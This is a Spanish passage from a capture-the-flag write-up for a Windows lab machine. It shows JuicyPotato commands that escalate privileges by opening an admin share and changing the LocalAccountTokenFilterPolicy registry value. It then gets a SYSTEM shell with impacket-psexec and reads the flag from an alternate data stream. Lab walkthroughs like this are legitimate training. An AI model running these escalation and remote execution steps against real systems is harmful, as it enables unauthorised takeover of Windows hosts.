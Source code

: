 Si comprobamos con el commando `crackmapexec smb 10.10.10.59 -u 's4vitar' -p 's4vitar1234$!'` Vemos que el usuario no esta pwned.
Aqui tenemos que 

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL"
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"
```

Si comprobamos otra vez con crackmapexec, vemos ahora que el usuario s4vitar esta pwned.
Ya nos podemos connectar con psexec

```bash
impacket-psexec WORKGROUP/s4vitar@10.10.10.59 cmd.exe
Password: s4vitar1234$!

whoami

#Output
nt authority\system

cd C:\Users\Adminstrator\Desktop
dir
type hm.txt
```

Aqui nos dice que la flag no esta aqui. Pensamos a Alternative Data Streams.

```bash
dir /r
more < hm.txt:root.txt
```

;)